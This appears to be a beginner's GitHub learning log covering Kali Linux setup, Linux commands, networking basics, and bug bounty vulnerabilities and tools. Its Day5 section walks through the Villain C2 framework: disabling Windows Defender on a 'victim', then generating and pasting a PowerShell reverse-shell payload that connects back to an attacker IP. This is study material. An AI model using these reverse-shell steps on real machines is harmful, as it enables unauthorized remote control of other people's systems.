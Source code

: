 # Day1
welcome to my repository 
# Day2
I learned how to download Kali Linux for VirtualBox and use 7-Zip to extract the files. While extracting Kali Linux using 7-Zip, I faced some errors but was able to fix them successfully. I'm eager to keep learning new things.
# Day3
Learned about Linux commands such as:
→ ls (List files and directories)
→ cd (Change directory)
→ pwd (Print current working directory)
→ mkdir (Create a new directory)
→ chmod (Change file permissions), etc.
Also learned how to run and execute them in Kali Linux using VirtualBox.
I'm excited to learn more new things ahead!
# Day4
->NAT (Network Address Translation):
       NAT is a networking process used to modify IP address information in packet headers while they are in transit across        a router or firewall.
       -->It allows multiple devices on a private network to share a single public IP address.
       -->Adds a layer of security by hiding internal IP addresses from external networks.
->Difference between TCP (Transmission Control Protocol) and UDP (User Datagram Protocol):
       1.Connection – TCP is connection-oriented (uses a handshake), while UDP is connectionless and sends data without             establishing a session.
       2. Reliability – TCP ensures reliable data transfer with acknowledgments and retransmissions; UDP does not guarantee        delivery.
       3.Speed – TCP is slower due to error checking and connection management, while UDP is faster because it has minimal         overhead.
       4.Security Risks – TCP can be targeted by attacks like SYN flooding and session hijacking, whereas UDP is vulnerable         to spoofing and amplification attacks.
->IP Address (Internet Protocol Address):
       Each device connected to a network is assigned an IP address to identify it.
        Currently, we are receiving **Dynamic IP Addresses** (assigned automatically and may change).
->IPv4 (Internet Protocol version 4):
        Format: 32-bit (e.g., `192.168.1.1`)
        Supports about 4.3 billion unique addresses.
->MAC Address (Media Access Control Address)
        Each device has a unique MAC address assigned to its network interface card.
        This address rarely changes and is used for communication within a local network.
->Port Forwarding:
        Port forwarding is a networking technique that redirects traffic from an external IP and port to an internal device         on a private network.
         It is useful for remote access to services.
         However, it can be risky if misconfigured, as it may expose internal services to attackers.
# Day5
Creating Reverse shell for Windows Hacking using Villain FrameWork:
-->Villain is a C2 (Command & Control) framework for managing reverse shells and backdoors across multiple machines.
**1. Install Villain**

```bash
git clone https://github.com/t3l3machus/Villain.git
cd Villain
sudo apt update
sudo apt install python3 python3-pip
pip3 install -r requirements.txt
```

**2. Launch Villain**

```bash
cd Villain
sudo python3 Villain.py
```

**3. On Victim Windows Machine**

* Turn off **Windows Defender** → Real-time protection **OFF**.

**4. Generate & Execute Payload**

* In Villain:

  ```bash
  generate payload=windows/reverse_tcp/powershell lhost=<Your_IP> lport=4444
  ```
* Copy payload → Paste into **Windows PowerShell** → Press **Enter**.

**5. Manage Sessions**

* `sessions` → View active sessions.
* `shell <ID>` → Interact with a session.
# Day6

##  Bug Bounty Basics

Report bugs (especially security flaws) → Get paid and recognized.



###  Common Vulnerabilities

* **BAC**: Accessing things you shouldn't.
* **IDOR**: Changing IDs in URLs to see others’ data.
* **XSS**: Injecting scripts into web pages.
* **CSRF**: Forcing users to take unwanted actions.
* **SQLi**: Messing with database queries.
* **SSRF**: Making the server talk to internal systems.
* **Auth Bypass**: Getting in without real login.


###  Top Bug Bounty Platforms

* **HackerOne** – Big names like Uber, Twitter
* **Bugcrowd** – Lots of public/private programs
* **Intigriti** – EU-based, growing fast
* **YesWeHack** – Strong in Europe
* **Open Bug Bounty** – Free and open


###  Must-Have Tools

* **Burp Suite** – Web app testing
* **Nmap** – Network scanner
* **SQLmap** – Finds SQL injections
* **Dirsearch/Gobuster** – Hidden folders
* **Subfinder/Amass** – Find subdomains
* **Postman/Insomnia** – API testing


###  Zero-Click Attacks

Hack happens with **no clicks** — just receiving a message or file.

 Example:

* **Pegasus Spyware** – Full phone hack via iMessage
* **WhatsApp** – Spyware via missed call
* **Apple Mail** – Attack by just receiving an email


###  Famous Hacking Devices

* **WiFi Pineapple** – Fakes Wi-Fi, steals data
* **USB Rubber Ducky** – Looks like USB, types commands
* **Flipper Zero** – All-in-one wireless hacking tool
* **Bash Bunny** – USB that steals data + more
* **HackRF One** – Radio signal hacking tool


